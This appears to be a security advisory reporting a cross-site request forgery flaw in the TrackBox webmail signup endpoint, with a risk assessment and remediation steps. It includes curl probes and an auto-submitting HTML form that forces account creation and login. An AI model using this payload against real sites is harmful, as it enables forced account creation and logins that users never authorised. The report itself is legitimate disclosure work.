



# Description

Cross-Site Request Forgery (CWE-352) on the TrackBox webmail signup endpoint `POST /signup`. The form carries no anti-CSRF token (only `Ufield`, `Pfield`, `CPfield`), the signup handler performs no `Referer`/`Origin` validation, and on success it sets the session cookies (`Id`, `Username`) with **no `SameSite` attribute**. The reported browser-side impact is unintended mailbox creation and authentication.

This is distinct from login CSRF on `/connect`: signup CSRF involves the creation of a **new account**, rather than authentication into an existing one. It also introduces a potential account-creation abuse risk.

# Exploitation

| Scenario | Effect |
|----------|--------|
| Mass forced creation | Repeated unintended registrations may consume database and storage resources. |
| Forced auth into attacker-known account | Unintended authentication into a newly created mailbox with known credentials. Duplicate usernames are rejected by the registration logic. |

# PoC

**1. The signup form has no CSRF token:**

```bash
curl -sk "https://webmail.<TARGET>/signup" | grep -iE '<form|<input|csrf|token'
# <form action="/signup" method="POST"> ... only Ufield/Pfield/CPfield, no token
```



**2. A POST creates an account and returns authentication cookies:**

```bash
curl -sk -i -X POST \
  --data-urlencode "Ufield=arthurcsrftest$(date +%s)" \
  --data-urlencode "Pfield=Testpass12345!" --data-urlencode "CPfield=Testpass12345!" \
  "https://webmail.<TARGET>/signup" | grep -iE "HTTP|location|set-cookie"
# HTTP/2 302
# location: /client?username=arthurcsrftest...@tbox.traced
# set-cookie: Id=...; HttpOnly; Path=/   (no SameSite)
# set-cookie: Username=...@tbox.traced; HttpOnly; Path=/
```



**3. Standalone HTML PoC (zero-click after load):**

```html
<form action="https://webmail.<TARGET>/signup" method="POST">
  <input name="Ufield" id="u">
  <input name="Pfield" value="Testpass12345!">
  <input name="CPfield" value="Testpass12345!">
</form>
<script>
  document.getElementById('u').value = 'csrfvictim' + Date.now();
  document.forms[0].submit();
</script>
```

Note: the `SameSite` attribute is absent on the response cookies. `SameSite` governs cookie handling, not whether an HTTP request can be submitted. The `curl` response demonstrates server-side behavior but does not establish browser behavior on its own.



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Potential disclosure of mailbox content if a user mistakenly uses the newly created account and an unauthorized party can access it. |
| Integrity | Unintended account creation and authentication. |
| Availability | Repeated account creation may consume database and storage resources. |

Overall severity: **Medium-High (provisional)** — based on unintended account creation and authentication; the extent of secondary impacts has not been established.

# Remediation

1. **Add a per-request anti-CSRF token** to `/signup` (and `/connect`).
2. **Validate `Origin`/`Referer`** on POST.
3. **Set `SameSite=Strict` + `Secure`** on the `Id`/`Username` cookies as defense in depth.
4. **Require e-mail verification before activation** (no auto-login on signup); add CAPTCHA/rate-limit to curb flooding.

# Author
Hackrapovic
